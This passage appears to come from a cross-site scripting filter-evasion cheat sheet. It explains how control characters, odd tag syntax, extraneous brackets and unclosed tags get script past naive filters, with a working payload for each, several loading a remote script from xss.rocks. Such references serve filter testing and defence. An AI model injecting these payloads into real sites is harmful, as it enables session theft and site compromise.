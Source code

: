## Spaces and meta chars before the JavaScript in images for XSS

This is useful if the pattern match doesn't take into account spaces in the word `javascript:` -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:

    <IMG SRC=" &#14;  javascript:alert('XSS');">

## Non-alpha-non-digit XSS

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

    <SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

    <SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>

## Extraneous open brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

    <<SCRIPT>alert("XSS");//\<</SCRIPT>

## No closing script tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the `\></SCRIPT>` portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful\! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

    <SCRIPT SRC=http://xss.rocks/xss.js?< B >
